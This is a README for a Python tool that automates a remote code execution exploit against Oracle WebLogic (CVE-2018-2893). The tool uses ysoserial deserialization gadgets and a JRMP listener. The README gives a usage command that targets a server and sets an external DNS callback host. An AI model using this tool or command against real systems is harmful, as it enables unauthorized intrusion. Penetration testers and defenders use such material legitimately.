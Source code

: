 # CVE-2018-2893 WebLogic Exploit Automation Script

This Python script automates the exploitation of **CVE-2018-2893**, a remote code execution (RCE) vulnerability in Oracle WebLogic Server, by leveraging the **T3** protocol and multiple deserialization gadget chains via [ysoserial](https://github.com/frohoff/ysoserial). 

It helps identify which gadget chains are effective against a given WebLogic target by using **JRMPClient-based callback detection**. The script waits for the vulnerable server to make an outbound JRMP connection, which then triggers a **`curl` to a DNS server** (e.g., Interactsh or Burp Collaborator). This DNS callback confirms which gadget was successfully deserialized.

---

## 📌 Features

- Automates the ysoserial payload generation and JRMP listener setup
- Supports multiple gadgets to maximize coverage
- Uses DNS callback to detect successful gadget execution
- Compatible with [`interactsh-client`](https://github.com/projectdiscovery/interactsh) for DNS logging

---

## 🛠️ Requirements

- Python 3.x
- **Java 1.8** (required for ysoserial to run correctly)
- `ysoserial.jar` in the same directory or specify the path
- Optional: `interactsh-client` for generating DNS callback subdomains

> 💡 On macOS, if you have multiple versions of Java installed, you can explicitly set Java 1.8 with:
>
> ```bash
> export JAVA_HOME=$(/usr/libexec/java_home -v 1.8)
> ```

---

## ⚙️ Usage

```bash
python3 CVE-2018-2893.py \
  --listen-ip 192.168.8.113 \
  --target-ip 127.0.0.1 \
  --target-port 7001 \
  --dns-callback d21ghev8sl1q7h62q4ng66rq8wsw7m1e8.oast.me

